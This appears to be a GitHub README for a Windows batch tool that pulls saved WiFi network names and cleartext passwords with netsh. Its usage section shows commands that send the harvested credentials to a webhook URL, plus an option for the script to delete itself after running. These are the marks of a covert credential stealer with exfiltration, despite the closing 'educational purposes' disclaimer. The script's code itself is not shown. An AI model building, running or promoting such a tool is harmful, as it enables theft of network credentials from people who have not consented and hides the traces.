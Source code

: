 WiFi Credentials Grepper for Windows

A simple batch script to extract and manage saved WiFi credentials on Windows.

## Features

- Exports saved WiFi profiles with passwords.
- Outputs results to a file (`grepper.txt` by default).
- Optionally uploads results to a webhook URL.
- Supports self-deletion after execution for one-time use.

## How It Works

1. The script uses `netsh wlan export profile` to fetch saved WiFi profiles.
2. Extracts SSIDs and passwords from the exported XML files.
3. Outputs the credentials to a text file (`grepper.txt`) or sends them to a webhook.
4. Cleans up temporary files after execution.

## Usage

### Default Usage

To run the script and save results to a text file:
```cmd
grepper.bat
```

### Custom Output File

To specify a custom output file:
```cmd
grepper.bat --output customfile.txt
```

### Upload to Webhook

To send the results to a webhook URL:
```cmd
grepper.bat --upload <webhook_url>
```
Replace `<webhook_url>` with the URL where you want the results to be sent.

### Enable Self-Deletion

To enable self-deletion after execution, set the following variable in the script:
```batch
set selfdelete=1
```

## Output Format

The output file (`grepper.txt`) contains the following information:
```
[!] SSID: <WiFi Network Name>
[+] Password: <WiFi Password>
[!] Hex pair: <Hex-encoded SSID>:<Hex-encoded Password>
```

## Disclaimer

This script is for educational purposes only. Use it responsibly and only on systems you own or have explicit permission to test.

## License

This project is licensed under the MIT License. See the LICENSE file for details.